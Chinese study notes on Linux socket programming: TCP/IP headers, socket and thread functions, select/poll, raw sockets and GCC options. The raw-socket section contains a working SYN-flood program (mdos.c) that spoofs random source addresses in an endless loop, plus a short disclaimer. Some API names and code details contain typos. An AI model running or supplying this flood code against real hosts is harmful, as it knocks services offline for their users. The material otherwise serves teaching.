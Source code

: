 * 网络通信三要素
IP地址
端口号
传输协议

* tcp与ip首部格式
[Network_Programing/IP_Header.jpg]
[Network_Programing/IP.gif]
如图，一个刻度表示1个二进制位（比特）。
1-1.版本4位，表示版本号，目前最广泛的是4=B0100，即常说的IPv4；相信IPv6以后会广泛应用，它能给世界上每个纽扣都分配
       一个IP地址。
1-2.头长4位，数据包头部长度。它表示数据包头部包括多少个32位长整型，也就是多少个4字节的数据。无选项则为5（红色部分）。
1-3.服务类型，包括8个二进制位，每个位的意义如下：
       过程字段：3位，设置了数据包的重要性，取值越大数据越重要，取值范围为：0（正常）~ 7（网络控制）
       延迟字段：1位，取值：0（正常）、1（期特低的延迟）
       流量字段：1位，取值：0（正常）、1（期特高的流量）
       可靠性字段：1位，取值：0（正常）、1（期特高的可靠性）
       成本字段：1位，取值：0（正常）、1（期特最小成本）
       保留字段：1位 ，未使用
1-4.包裹总长16位，当前数据包的总长度，单位是字节。当然最大只能是65535，及64KB。
2-1.重组标识16位，发送主机赋予的标识，以便接收方进行分片重组。
2-2.标志3位，他们各自的意义如下：
       保留段位(2)：1位，未使用
       不分段位(1)：1位，取值：0（允许数据报分段）、1（数据报不能分段）
       更多段位(0)：1位，取值：0（数据包后面没有包，该包为最后的包）、1（数据包后面有更多的包）
2-3.段偏移量13位，与更多段位组合，帮助接收方组合分段的报文，以字节为单位。
3-1.生存时间8位，经常ping命令看到的TTL（Time To Live）就是这个，每经过一个路由器，该值就减一，到零丢弃。
3-2.协议代码8位，表明使用该包裹的上层协议，如TCP=6，ICMP=1，UDP=17等。
3-3.头检验和16位，是IPv4数据包头部的校验和。
4-1.源始地址，32位4字节，我们常看到的IP是将每个字节用点（.）分开，如此而已。
5-1.目的地址，32位，同上。
6-1.可选选项，主要是给一些特殊的情况使用，往往安全路由会当作攻击而过滤掉，普联（TP_LINK）的TL-ER5110路由就能这么做。
7-1.用户数据。

[Network_Programing/TCP.gif]
1-1.源始端口16位，范围当然是0-65535啦。
1-2.目的端口，同上。
2-1.数据序号32位，TCP为发送的每个字节都编一个号码，这里存储当前数据包数据第一个字节的序号。
3-1.确认序号32位，为了安全，TCP告诉接受者希望他下次接到数据包的第一个字节的序号。
4-1.偏移4位，类似IP，表明数据距包头有多少个32位。
4-2.保留6位，未使用，应置零。
4-3.紧急比特URG—当URG＝1时，表明紧急指针字段有效。它告诉系统此报文段中有紧急数据，应尽快传送(相当于高优先级的数据)。
4-3.确认比特ACK—只有当ACK＝1时确认号字段才有效。当ACK＝0时，确认号无效。参考TCP三次握手
4-4.复位比特RST(Reset) —当RST＝1时，表明TCP连接中出现严重差错（如由于主机崩溃或其他原因），必须释放连接，然后再重新
       建立运输连接。参考TCP三次握手
4-5.同步比特SYN—同步比特SYN置为1，就表示这是一个连接请求或连接接受报文。参考TCP三次握手
4-6.终止比特FIN(FINal)—用来释放一个连接。当FIN＝1时，表明此报文段的发送端的数据已发送完毕，并要求释放运输连接。
4-7.窗口字段16位，窗口字段用来控制对方发送的数据量，单位为字节。TCP连接的一端根据设置的缓存空间大小确定自己的接收窗口
       大小，然后通知对方以确定对方的发送窗口的上限。
5-1.包校验和16位，包括首部和数据这两部分。在计算检验和时，要在TCP报文段的前面加上12字节的伪首部。
5-2.紧急指针16位，紧急指针指出在本报文段中的紧急数据的最后一个字节的序号。
6-1.可选选项24位，类似IP，是可选选项。
6-2.填充8位，使选项凑足32位。
7-1.用户数据……

* linux套接字类型
- Socket
  - INET:  IPv4
  - INET6: IPv6
  - SOCK_STREAM
    - 流式套接字,提供面向连接,可靠的数据传输服务,数据按照字节流,按照顺序收发,保证数据在传输过程中无丢失,无冗余.TCP协议支持该套接字
  - SOCK_DGRAM
    - 数据报套接字,提供面向无连接的服务,数据收发无序,不能保证数据的准确到达.UDP协议支持该套接字
  - SOCK_RAW
    - 原始套接字.允许对低于传输层的协议或物理网络直接访问,例如可以接受和发送ICMP报.常用于检测新的协议

- TLI

* 套接字基础函数

** 字节排序函数
#+BEGIN_SRC c
#include <netinet/in.h>
uint16_t htons(uint16_t hosts);
//将16位的短整形数,从主机字节序转换为网络字节序
uint32_t htonl(uint32_t hostl);
//将32位的长整形数,从主机字节序转换为网络字节序
uint16_t ntohs(uint16_t nets);
//将16位的短整形数,从网络字节序转换为主机字节序
uint32_t ntohl(uint32_t netl);
//将16位的长整形数,从网络字节序转换为主机字节序

#+END_SRC

** 字节操纵函数
#+BEGIN_SRC c
#include <string.h>
void bzero(void *dest, size_t len);
//将目标中指定数目的字节置为0,经常用此函数来对套接字地址结构进行初始化
void bcopy(const void *src, void *dest, size_t len);
//将指定数目字节从源拷贝到目标
void bcmp(const void *src, void *dest, size_t len);
//比较源和目标两个字符串,若相同返回值为0,否则返回非0

void *memset(void *dest, int x, size_t len);
//将目标地址开始len个长度设为x
void *memcpy(void *dest, const void *src, size_t len);
//当源与目标重叠时, bcopy能够正确处理,而memcpy的操作结果不可知
int memcmp(const void *str1, const void *str2, size_t len);
//相同返回0,str1大于str2则返回大于0,否则小于0
#+END_SRC

** IP地址转换函数
#+BEGIN_SRC c
#include <arpa/inet.h>
in_addr_t inet_addr(const char *str);
//将字符串形式的IP地址转换成32位二进制的IP地址.str指向字符串形式的IP地址.这个函数不对IP地址的有效性进行验证,所有2^32个可能的二进制值都认为是有效的IP地址.该函数无法处理点分十进制的IP地址:255.255.255.255无法由此函数处理
int inet_aton(const char *str, struct in_addr *numstr);
//进行相同的转化.str指向字符串形式的IP地址,numstr指向转换后点分十进制的IP地址.成功返回1失败返回0
char *int_ntoa(struct in_addr inaddr);
//将一个32位网络字节序的二进制IP地址转换成相应的点分十进制IP地址.这个函数的参数是一个结构体.函数返回值所指向的串还在静态内存中,所以函数是不可重入的
以上函数只能处理IPv4

#include <arpa/inet.h>
//p代表地址的表达格式通常是ASCII字符串,n代表数值格式,是存在套接字地址结构中的二进制值.
//family参数是指操作的地址族,IPv4是AF_INET,IPv6是AF_INET6
int inet_pton(int family, const char *str, void *numstr);
//将str所指的字符串形式的IP地址,转换为网络字节序的二进制IP地址,并用指针numstr存储.成功返回1
const char *inet_ntop(int family, const void *numstr, char *str, size_t len);
//进行想法操作,将numstr所值的二进制IP地址转换成字符串形IP地址,并用指针str存储,参数len是目标的大小
#+END_SRC

** isfdtype函数
#+BEGIN_SRC c
#include <sys/stat.h>
int isfdtype(int fd, int fdtype);
//测试操作符fd是不是fdtype指定的类型.

#+END_SRC

* 网络字节序和主机字节序转换函数
见上

* 并发技术
- 进程
- 线程
- I/O多路复用

* 父进程先于子进程结束和晚于子进程结束差异
一个现有进程可以调用fork函数创建一个新进程。由fork创建的新进程被称为子进程（child process）。fork函数被调用一次但返回两次。两次返回的唯一区别是子进程中返回0值而父进程中返回子进程ID。

1）父进程先于子进程终止

     当父进程先退出时，系统会让init进程接管子进程，该子线程成为了孤儿进程。

2）子进程先于父进程终止

    分为2种情况：

       a）正常情况：父进程调用了wait函数 （非父子进程则用waitpid函数），此时父进程会等待子进程结束。

       b）父进程又没有调用wait函数 （非父子进程则未调用waitpid函数），此种情况子进程进入僵死状态即僵尸进程，并且会一直保持下去直到系统重启。子进程处于僵死状态时，内核只保存进程的一些必要信息以备父进程所需。此时子进程始终占有着资源，同时也减少了系统可以创建的最大进程数。

    僵死状态：一个已经终止、但是其父进程尚未对其进行善后处理(获取终止子进程的有关信息，释放它仍占有的资源)的进程被称为僵死进程(zombie)。ps命令将僵死进程的状态打印为Z 。
* 僵尸进程
　　孤儿进程：一个父进程退出，而它的一个或多个子进程还在运行，那么那些子进程将成为孤儿进程。孤儿进程将被init进程(进程号为1)所收养，并由init进程对它们完成状态收集工作。

　　僵尸进程：一个进程使用fork创建子进程，如果子进程退出，而父进程并没有调用wait或waitpid获取子进程的状态信息，那么子进程的进程描述符仍然保存在系统中。这种进程称之为僵死进程。

* 多线程(tcp和udp) 并发服务器编程模板以及例程

* 线程基础函数

#+BEGIN_SRC c
#include <pthread.h>
int pthread_create(pthread_t *tid, const pthread_attr_t *attr, void *(func)(void *), viod *arg);
//如果新线程创建成功,参数tid返回新生成的线程ID.一个进程中的每个线程都由一个线程ID标识,其类型为pthread_t, attr指向线程属性指针.每个线程有很多属性.通常将attr的参数值设置为NULL,这时使用系统的默认属性.
//创建完线程后, 需要说明它将执行的函数.函数地址由func制定,该参数必须是个静态函数,它只有一个通用指针作为参数,并返回一个通用指针.该执行函数的调用参数是由arg指定,arg是一个通用指针,用于往func函数中传递参数.如果需要传递多个参数,必须将它们打包成一个结构,然后让arg指向该结构

int pthread_jion(pthread_t tid, void **status);
//函数与进程的waitpid函数功能类似,等待一个线程终止
//参数tid指定所等待的线程ID.该函数必须指定要等待的线程,不能等待任一个线程结束.要求等待的线程必须是当前进程的成员,并且不是分离的线程或者守护线程.几个线程不能同时等待一个线程完成,如果其中一个成功调用pthread_jion函数,其他线程将返回ESRCH错误,如果等待的线程已经终止,则该函数立即返回.如果参数status指针非空,则指向终止线程的推出状态值.调用成功返回0

int pthread_detach(pthread_t tid);
//tid为要分离线程的ID,函数成功返回0

pthread_t pthread_self(void);
//函数返回调用函数的线程ID

void pthread_exit(void *status);
//函数用于终止当前线程,并返回状态值,如果当前线程是可联合的,则其推出状态将保留
#+END_SRC

* 分离线程

线程分为两类:可联合的和分离的,默认情况下线程都是可联合的.
可联合的线程终止时,其线程ID和终止状态将保留,直到线程调用pthread_jion函数.
而分离线程退出后,系统将释放其所有资源,其他线程不能等待其终止.如果一个线程需要知道另一个线程什么时候终止,最好保留第二个线程的可联合性.

* 互斥锁作用
在编程中，引入了对象互斥锁的概念，来保证共享数据操作的完整性。每个对象都对应于一个可称为" 互斥锁" 的标记，这个标记用来保证在任一时刻，只能有一个线程访问该对象。

* 多线程中传参数的几种方法有何差异

* 线程安全性TSD编程例程

* I/O复用技术和相关函数
- 阻塞I/O
- 非阻塞I/O
- I/O复用
- 信号驱动I/O(同步I/O)
- 异步I/O

** 相关函数
*** select
#+BEGIN_SRC c
  #include <sys/select.h>
  #include <sys/time.h>
  int select(int maxfdp, fd_set *readset, fd_set *writeset, fd_set *execepset, const struct timeval *timeout);

  struct timeval{
      long tv_sec;
      long tv_usec;
  };
  /*
    timeval 结构可以提供秒数,毫秒数成员.
    这个timeval有三种可能
    永远等待下去:仅在有一个描述字准备好I/O时才返回,因此我们可以将参数timeout设置为空指针
    等待固定时间:在有一个描述字准备好I/O时才返回,但不超过由timeout参数所指定timeval结构中指定的秒数和微秒数
    根本不用等待:检查描述字后立即返回,这称为轮询
    在前两种情况的等待中,如果进程捕获了一个人信号,并从信号处理程序返回,那么等待一般被中断.
    参数readset,writeset和execpset指定让内核测试读,写,异常条件的描述字.如果不感兴趣,可将其设置为NULL

    select函数使用描述字集为参数readset(writeset或execptset)指定多个描述字.描述字集是一个整数数组,每个数中的每一个对应于一个描述字,例如32位整数,则数组的第一个元素对应0-31描述字,第二个元素对应于32-63描述字.下面介绍下面几个描述字的宏
  ,*/

  void FD_ZERO(fd_set *fdset); //将所有位设为0
  void FD_SET(int fd, fd_set *fdset); //将fd位设为1
  void FD_CLR(int fd, fd_set *fdset); //将fd位设为0
  int FD_ISSET(int fd, fd_set *fdset); //检测fd位是否为1

  //example
  fd_set fdset; //声明fdset
  FD_ZERO(&fdset); //初始化fdset
  FD_SET(1, &fdset); //将fd为1的描述字设为1
  FD_SET(2, &fdset); //将fd为2的描述字设为1
  FD_CLR(3, &fdset); //将fd为3的描述字设为0
#+END_SRC

*** shutdown
以前终止连接的方式是调用close函数,该函数并不进行真正的四分组终止序列,而是将描述字的访问次数减1,仅在此计数为0的时候才关闭套接字,发送TCP的正常连接终止序列,在此close有两个限制可以由本节介绍的函数shutdown来避免
- close将描述字的访问次数减1,仅在此计数为0的时候才关闭套接字.用shutdown可以激发TCP的正常连接终止序列,而不管访问计数.
- close终止了数据传输的两个方向:读和写,由于TCP是全双工的,有很多时候,要通知另一端已经完成了数据发送,即使那一端仍有许多数据要发送也是如此.shutdown函数可以仅仅关闭连接的读,写或两个方向都关闭

#+BEGIN_SRC c
#include <sys/socket.h>
int shutdown(int sockfd, int howto);
/*
返回0成功
sockfd为要关闭的套接口描述字
howto为以下常值:
SHUT_RD:关闭连接读的这一半,不再接受套接口中的数据,而留在套接口接受缓冲区中的数据都作废.进程不再能够对套接字执行任何读函数.调用此函数后,TCP套接口接受的任何数据都被确认,但数据本身扔掉
SHUT_WD:关闭连接写的这一半,在TCP场合下,这种情况称为半关闭(half_close).当前留在套接口发送缓冲区的数据都被发送,后跟正常的TCP连接终止序列,进程不能再执行对套接口的任何写函数.
*/

#+END_SRC

*** poll

#+BEGIN_SRC c
  #include <poll.h>
  int poll(struct pollfd *fdarray, unsigned long nfds, int timeout);
  //返回准备好的描述字个数, 0---超时, 1---出错
  /*
  第一个参数是指向结构数组第一个元素的指针,每个数组的元素都是一个pollfd结构,它规定了为测试一给定描述字fd的一些条件.下面是polled结构的源码
  ,*/
  struct pollfd{
      int fd;
      short events;
      shortevent;
  };

  /*
  要测试的条件由成员events规定,函数在相应的revents成员中返回描述字的状态(每个描述字有两个变量,一个为调用值,一个为结果,以此避免使用值-结果参数.回想一下,函数select的中间三个参数都是值-结果参数).这两个成员中的每一个都由指定某个条件的一位或多位组成.下面列出了用于指定标志位events并测试标志位revents的一些常值:
  POLLIN: 普通或优先级带数据可读,revent&events
  POLLRDNORN: 普通数据可读,revent&events
  ROLLRDBAD: 优先级带数据可读,revent&events
  POLLPRI: 高优先级带数据可读,revent&events
  POLLOUT: 普通或优先级带数据可写,revent&events
  POLLWRNORM: 普通数据可写,revent&events
  POLLWRBAND: 优先级带数据可写,revent&events
  POLLERR: 发生错误,revents
  POLLHUP: 发生挂起,revents
  POLLNVAL: 套接字不是一个打开的文件,revents
  其中,前4个常值是处理套接口输入的,中间3个是处理输出的,而最后3个是处理错误的,因此只能在revents中返回.在流设备中,将数据分为普通,优先级,高优先级3种.

  对于TCP和UDP套接口,将引起poll返回的revents具体化:
  所有正规TCP数据和UDP数据都被认为是普通数据
  TCP的带外数据被认为是优先级带数据
  当TCP连接的读的这一半关闭时,(例如收到一个FIN),这也认为是普通数据,且后续的读操作将返回0.TCP连接存在错误既可认为是普通数据,也可认为是POLLERR错误.无论那种情况,后续读操作将返回-1,并设置error,这就是处理了诸如接收RST或者超时等条件
  在监听套接口上新连接的可用性既可认为是普通数据,也可认为是优先级数据,大多数实现都将其做为普通数据考虑

  而第二个参数,结构数组中元素的个数是由参数nfds来规定的,参数timeout同select中timeout功能一样,指定函数返回前等待多少时间
  大于0,等待知道数目的时间
  等于0,立即返回,不阻塞
  INFTIM,永远等待
  ,*/

#+END_SRC

* 非阻塞IO工作模式

* 同步io 与异步io

* 域名解析相关函数

* 获取本地址和远程地址方法

** gethostbyname
该函数如果执行成功就返回一个指向结构hostent的指针,如果失败返回空指针
#+BEGIN_SRC c
  #include <netdb.h>
  struct hostent {
      char *h_name; // 主机的正式名称
      char **h_aliases; // 主机的别名列表
      int h_addrtype; //主机地址类型
      int h_length; //主机地址长度
      char **h_addr_list; //主机IP地址列表
  };
  #define haddr h_addr_list[0] // 在列表中的第一个地址

#+END_SRC


* 原始套接字作用以及创建方式
基于原始套接字编程
       在开发面向连接的TCP和面向无连接的UDP程序时，我们所关心的核心问题在于数据收发层面，数据的传输特性由TCP或UDP来保证：
[SOCK_RAW/raw_1.jpg]
也就是说，对于TCP或UDP的程序开发，焦点在Data字段，我们没法直接对TCP或UDP头部字段进行赤裸裸的修改，当然还有IP头。换句话说，我们对它们头部操作的空间非常受限，只能使用它们已经开放给我们的诸如源、目的IP，源、目的端口等等。
今天我们讨论一下原始套接字的程序开发，用它作为入门协议栈的进阶跳板太合适不过了。OK闲话不多说，进入正题。
原始套接字的创建方法也不难：socket(AF_INET, SOCK_RAW, protocol)。
重点在protocol字段，这里就不能简单的将其值为0了。在头文件netinet/in.h中定义了系统中该字段目前能取的值，注意：有些系统中不一定实现了netinet/in.h中的所有协议。源代码的linux/in.h中和netinet/in.h中的内容一样。

[SOCK_RAW/raw_2.jpg]

 我们常见的有IPPROTO_TCP，IPPROTO_UDP和IPPROTO_ICMP，在博文“(十六)洞悉linux下的Netfilter&iptables：开发自己的hook函数【实战】(下) ”中我们见到该protocol字段为IPPROTO_RAW时的情形，后面我们会详细介绍。
       用这种方式我就可以得到原始的IP包了，然后就可以自定义IP所承载的具体协议类型，如TCP，UDP或ICMP，并手动对每种承载在IP协议之上的报文进行填充。接下来我们看个最著名的例子DOS攻击的示例代码，以便大家更好的理解如何基于原始套接字手动去封装我们所需要TCP报文。
       先简单复习一下TCP报文的格式，因为我们本身不是讲协议的设计思想，所以只会提及和我们接下来主题相关的字段，如果想对TCP协议原理进行深入了解那么《TCP/IP详解卷1》无疑是最好的选择。

[SOCK_RAW/raw_3.jpg]

我们目前主要关注上面着色部分的字段就OK了，接下来再看看TCP3次握手的过程。TCP的3次握手的一般流程是：
(1) 第一次握手：建立连接时，客户端A发送SYN包(SEQ_NUMBER=j)到服务器B，并进入SYN_SEND状态，等待服务器B确认。
(2) 第二次握手：服务器B收到SYN包，必须确认客户A的SYN(ACK_NUMBER=j+1)，同时自己也发送一个SYN包(SEQ_NUMBER=k)，即SYN+ACK包，此时服务器B进入SYN_RECV状态。
(3) 第三次握手：客户端A收到服务器B的SYN＋ACK包，向服务器B发送确认包ACK(ACK_NUMBER=k+1)，此包发送完毕，客户端A和服务器B进入ESTABLISHED状态，完成三次握手。
 至此3次握手结束，TCP通路就建立起来了，然后客户端与服务器开始交互数据。上面描述过程中，SYN包表示TCP数据包的标志位syn=1，同理，ACK表示TCP报文中标志位ack=1，SYN+ACK表示标志位syn=1和ack=1同时成立。
原始套接字还提供了一个非常有用的参数IP_HDRINCL：
1、当开启该参数时：我们可以从IP报文首部第一个字节开始依次构造整个IP报文的所有选项，但是IP报文头部中的标识字段(设置为0时)和IP首部校验和字段总是由内核自己维护的，不需要我们关心。
2、如果不开启该参数：我们所构造的报文是从IP首部之后的第一个字节开始，IP首部由内核自己维护，首部中的协议字段被设置成调用socket()函数时我们所传递给它的第三个参数。
 开启IP_HDRINCL特性的模板代码一般为：
       const int on =1;
  if (setsockopt (sockfd, IPPROTO_IP, IP_HDRINCL, &on, sizeof(on)) < 0){
printf("setsockopt error!\n");
  }
      所以，我们还得复习一下IP报文的首部格式：

[SOCK_RAW/raw_4.jpg]

同样，我们重点关注IP首部中的着色部分区段的填充情况。
有了上面的知识做铺垫，接下来DOS示例代码的编写就相当简单了。我们来体验一下手动构造原生态IP报文的乐趣吧
#+BEGIN_SRC c
//mdos.c
#include <stdlib.h>
#include <stdio.h>
#include <errno.h>
#include <string.h>
#include <unistd.h>
#include <netdb.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <linux/tcp.h>

//我们自己写的攻击函数
void attack(int skfd,struct sockaddr_in *target,unsigned short srcport);
//如果什么都让内核做，那岂不是忒不爽了，咱也试着计算一下校验和。
unsigned short check_sum(unsigned short *addr,int len);

int main(int argc,char** argv){
        int skfd;
        struct sockaddr_in target;
        struct hostent *host;
        const int on=1;
        unsigned short srcport;

        if(argc!=2)
        {
                printf("Usage:%s target dstport srcport\n",argv[0]);
                exit(1);
        }

        bzero(&target,sizeof(struct sockaddr_in));
        target.sin_family=AF_INET;
        target.sin_port=htons(atoi(argv[2]));

        if(inet_aton(argv[1],&target.sin_addr)==0)
        {
                host=gethostbyname(argv[1]);
                if(host==NULL)
                {
                        printf("TargetName Error:%s\n",hstrerror(h_errno));
                        exit(1);
                }
                target.sin_addr=*(struct in_addr *)(host->h_addr_list[0]);
        }

        //将协议字段置为IPPROTO_TCP，来创建一个TCP的原始套接字
        if(0>(skfd=socket(AF_INET,SOCK_RAW,IPPROTO_TCP))){
                perror("Create Error");
                exit(1);
        }

        //用模板代码来开启IP_HDRINCL特性，我们完全自己手动构造IP报文
         if(0>setsockopt(skfd,IPPROTO_IP,IP_HDRINCL,&on,sizeof(on))){
                perror("IP_HDRINCL failed");
                exit(1);
        }

        //因为只有root用户才可以play with raw socket :)
        setuid(getpid());
        srcport = atoi(argv[3]);
        attack(skfd,&target,srcport);
}

//在该函数中构造整个IP报文，最后调用sendto函数将报文发送出去
void attack(int skfd,struct sockaddr_in *target,unsigned short srcport){
        char buf[128]={0};
        struct ip *ip;
        struct tcphdr *tcp;
        int ip_len;

        //在我们TCP的报文中Data没有字段，所以整个IP报文的长度
        ip_len = sizeof(struct ip)+sizeof(struct tcphdr);
        //开始填充IP首部
        ip=(struct ip*)buf;

        ip->ip_v = IPVERSION;
        ip->ip_hl = sizeof(struct ip)>>2;
        ip->ip_tos = 0;
        ip->ip_len = htons(ip_len);
        ip->ip_id=0;
        ip->ip_off=0;
        ip->ip_ttl=MAXTTL;
        ip->ip_p=IPPROTO_TCP;
        ip->ip_sum=0;
        ip->ip_dst=target->sin_addr;

        //开始填充TCP首部
        tcp = (struct tcphdr*)(buf+sizeof(struct ip));
        tcp->source = htons(srcport);
        tcp->dest = target->sin_port;
        tcp->seq = random();
        tcp->doff = 5;
        tcp->syn = 1;
        tcp->check = 0;

        while(1){
                //源地址伪造，我们随便任意生成个地址，让服务器一直等待下去
                ip->ip_src.s_addr = random();
                tcp->check=check_sum((unsigned short*)tcp,sizeof(struct tcphdr));
                sendto(skfd,buf,ip_len,0,(struct sockaddr*)target,sizeof(struct sockaddr_in));
        }
}

//关于CRC校验和的计算，网上一大堆，我就“拿来主义”了
unsigned short check_sum(unsigned short *addr,int len){
        register int nleft=len;
        register int sum=0;
        register short *w=addr;
        short answer=0;

        while(nleft>1)
        {
                sum+=*w++;
                nleft-=2;
        }
        if(nleft==1)
        {
                *(unsigned char *)(&answer)=*(unsigned char *)w;
                sum+=answer;
        }

        sum=(sum>>16)+(sum&0xffff);
        sum+=(sum>>16);
        answer=~sum;
        return(answer);
}
#+END_SRC

用前面我们自己编写TCP服务器端程序来做本地测试，看看效果。先把服务器端程序启动起来，如下：

[SOCK_RAW/raw_5.jpg]

 然后，我们编写的“捣蛋”程序登场了：

[SOCK_RAW/raw_6.jpg]

 该“mdos”命令执行一段时间后，服务器端的输出如下：

[SOCK_RAW/raw_7.jpg]

因为我们的源IP地址是随机生成的，源端口固定为8888，服务器端收到我们的SYN报文后，会为其分配一条连接资源，并将该连接的状态置为SYN_RECV，然后给客户端回送一个确认，并要求客户端再次确认，可我们却不再bird别个了，这样就会造成服务端一直等待直到超时。
备注：本程序仅供交流分享使用，不要做恶，不然后果自负哦。
最后补充一点，看到很多新手经常对struct ip{}和struct iphdr{}，struct icmp{}和struct icmphdr{}纠结来纠结去了，不知道何时该用哪个。在/usr/include/netinet目录这些结构所属头文件的定义，头文件中对这些结构也做了很明确的说明，这里我们简单总结一下：
struct ip{}、struct icmp{}是供BSD系统层使用，struct iphdr{}和struct icmphdr{}是在INET层调用。同理tcphdr和udphdr分别都已经和谐统一了，参见tcp.h和udp.h。
BSD和INET的解释在协议栈篇章详细论述，这里大家可以简单这样来理解：我们在用户空间的编写网络应用程序的层次就叫做BSD层。所以我们该用什么样的数据结构呢？良好的编程习惯当然是BSD层推荐我们使用的，struct ip{}、struct icmp{}。至于INET层的两个同类型的结构体struct iphdr{}和struct icmphdr{}能用不？我只能说不建议。看个例子：

[SOCK_RAW/raw_8.jpg]

我们可以看到无论BSD还是INET层的IP数据包结构体大小是相等的，ICMP报文的大小有差异。而我们知道ICMP报头应该是8字节，那么BSD层为什么是28字节呢？留给大家思考。也就是说，我们这个mdos.c的实例程序中除了用struct ip{}之外还可以用INET层的struct iphdr{}结构。将如下代码：
#+BEGIN_SRC c
struct ip *ip;
…
ip=(struct ip*)buf;
ip->ip_v = IPVERSION;
ip->ip_hl = sizeof(struct ip)>>2;
ip->ip_tos = 0;
ip->ip_len = htons(ip_len);
ip->ip_id=0;
ip->ip_off=0;
ip->ip_ttl=MAXTTL;
ip->ip_p=IPPROTO_TCP;
ip->ip_sum=0;
ip->ip_dst=target->sin_addr;
…
ip->ip_src.s_addr = random();
#+END_SRC

改成:

#+BEGIN_SRC c
struct iphdr *ip;
…
ip=(struct iphdr*)buf;
ip->version = IPVERSION;
ip->ihl = sizeof(struct ip)>>2;
ip->tos = 0;
ip->tot_len = htons(ip_len);
ip->id=0;
ip->frag_off=0;
ip->ttl=MAXTTL;
ip->protocol=IPPROTO_TCP;
ip->check=0;
ip->daddr=target->sin_addr.s_addr;
…
ip->saddr = random();

#+END_SRC

结果请童鞋们自己验证。虽然结果一样，但在BSD层直接使用INET层的数据结构还是不被推荐的。
小结：
1、IP_HDRINCL选项可以使我们控制到底是要从IP头部第一个字节开始构造我们的原始报文或者从IP头部之后第一个数据字节开始。
2、只有超级用户才能创建原始套接字。
3、原始套接字上也可以调用connet、bind之类的函数，但都不常见。原因请大家回顾一下这两个函数的作用。想不起来的童鞋回头复习一下前两篇的内容吧。

* GCC编译器使用

1.预处理,生成.i的文件[预处理器cpp]
2.将预处理后的文件不转换成汇编语言,生成文件.s[编译器egcs]
3.有汇编变为目标代码(机器代码)生成.o的文件[汇编器as]
4.连接目标代码,生成可执行程序[链接器ld]

gcc
-g 允许调试
-o 指定输出文件名
-pthread 以便使用线程相关头文件

[参数详解]
-x language filename
　 设定文件所使用的语言,使后缀名无效,对以后的多个有效.也就是根据约定C语言的后
缀名称是.c的，而C++的后缀名是.C或者.cpp,如果你很个性，决定你的C代码文件的后缀
名是.pig 哈哈，那你就要用这个参数,这个参数对他后面的文件名都起作用，除非到了
下一个参数的使用。
　　可以使用的参数吗有下面的这些
　　`c', `objective-c', `c-header', `c++', `cpp-output', `assembler', and `a
ssembler-with-cpp'.
　　看到英文，应该可以理解的。
　　例子用法:
　　gcc -x c hello.pig
　　
-x none filename
　　关掉上一个选项，也就是让gcc根据文件名后缀，自动识别文件类型
　　例子用法:
　　gcc -x c hello.pig -x none hello2.c
　　
-c
　　只激活预处理,编译,和汇编,也就是他只把程序做成obj文件
　　例子用法:
　　gcc -c hello.c
　　他将生成.o的obj文件
-S
　　只激活预处理和编译，就是指把文件编译成为汇编代码。
　　例子用法
　　gcc -S hello.c
　　他将生成.s的汇编代码，你可以用文本编辑器察看
-E
　　只激活预处理,这个不生成文件,你需要把它重定向到一个输出文件里面.
　　例子用法:
　　gcc -E hello.c > pianoapan.txt
　　gcc -E hello.c | more
　　慢慢看吧,一个hello word 也要与处理成800行的代码
-o
　　制定目标名称,缺省的时候,gcc 编译出来的文件是a.out,很难听,如果你和我有同感
，改掉它,哈哈
　　例子用法
　　gcc -o hello.exe hello.c (哦,windows用习惯了)
　　gcc -o hello.asm -S hello.c
-pipe
　　使用管道代替编译中临时文件,在使用非gnu汇编工具的时候,可能有些问题
　　gcc -pipe -o hello.exe hello.c
-ansi
　　关闭gnu c中与ansi c不兼容的特性,激活ansi c的专有特性(包括禁止一些asm inl
ine typeof关键字,以及UNIX,vax等预处理宏,
-fno-asm
　　此选项实现ansi选项的功能的一部分，它禁止将asm,inline和typeof用作关键字。
　　　　
-fno-strict-prototype
　　只对g++起作用,使用这个选项,g++将对不带参数的函数,都认为是没有显式的对参数
的个数和类型说明,而不是没有参数.
　　而gcc无论是否使用这个参数,都将对没有带参数的函数,认为城没有显式说明的类型

　　
-fthis-is-varialble
　　就是向传统c++看齐,可以使用this当一般变量使用.
　　
-fcond-mismatch
